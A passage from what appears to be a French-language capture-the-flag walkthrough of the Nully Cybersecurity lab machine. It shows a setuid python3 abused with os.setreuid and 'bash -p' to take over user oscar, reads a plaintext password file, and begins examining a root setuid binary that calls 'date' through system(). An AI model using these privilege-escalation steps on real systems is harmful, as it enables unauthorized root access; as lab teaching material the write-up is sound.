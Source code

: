 Fouillons les fichier d'`Oscar`, le `sysadmin of the Nully Cybersecurity web server` :

```bash
oliver@WebServer:~$ find / -user oscar -ls 2> /dev/null 
   680142      4 drwx------   4 oscar    oscar        4096 Aug 26  2020 /home/oscar
   678796   5332 -rwsr-xr-x   1 oscar    oscar     5457568 Aug 26  2020 /usr/bin/python3
   678522   5332 -rwxr-xr-x   1 oscar    oscar     5457568 Mar 13  2020 /usr/bin/python3.8
```

Ce petit `s` dans les permissions indique que le fichier est setuid. `Oscar` a l'UID `1000` on va l'appliquer au process courant (UIDs effectif et réel) puis lancer un nouveau shell :

```bash
oliver@WebServer:~$ /usr/bin/python3
Python 3.8.2 (default, Mar 13 2020, 10:14:16) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setreuid(1000, 1000)
>>> os.system("bash -p")
oscar@WebServer:~$ id
uid=1000(oscar) gid=1001(oliver) groups=1001(oliver)
oscar@WebServer:~$ pwd
/home/oliver
oscar@WebServer:~$ cd ~oscar
oscar@WebServer:/home/oscar$ ls -al
total 36
drwx------ 4 oscar oscar 4096 Aug 26  2020 .
drwxr-xr-x 1 root  root  4096 Aug 26  2020 ..
-rw------- 1 oscar oscar    0 Nov 29 22:39 .bash_history
-rw-r--r-- 1 oscar oscar  220 Aug 25  2020 .bash_logout
-rw-r--r-- 1 oscar oscar 3771 Aug 25  2020 .bashrc
drwx------ 2 oscar oscar 4096 Aug 25  2020 .cache
-rw-r--r-- 1 oscar oscar  807 Aug 25  2020 .profile
-rw------- 1 oscar oscar 2183 Aug 26  2020 .viminfo
-r-------- 1 oscar oscar   37 Aug 26  2020 my_password
drwx------ 2 oscar oscar 4096 Aug 27  2020 scripts
oscar@WebServer:/home/oscar$ cat my_password 
H53QfJcXNcur9xFGND3bkPlVlMYUrPyBp76o
```

Une fois connecté avec ce mot de passe on trouve dans le dossier `scripts` de l'utilisateur un binaire setuid pour root :

```bash
oscar@WebServer:/home/oscar$ ls -al scripts/
total 28
drwx------ 2 oscar oscar  4096 Aug 27  2020 .
drwx------ 4 oscar oscar  4096 Aug 26  2020 ..
-rwsr-xr-x 1 root  root  16784 Aug 26  2020 current-date
oscar@WebServer:/home/oscar$ strings scripts/current-date 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
date
:*3$"
GCC: (Ubuntu 9.3.0-10ubuntu2) 9.3.0
```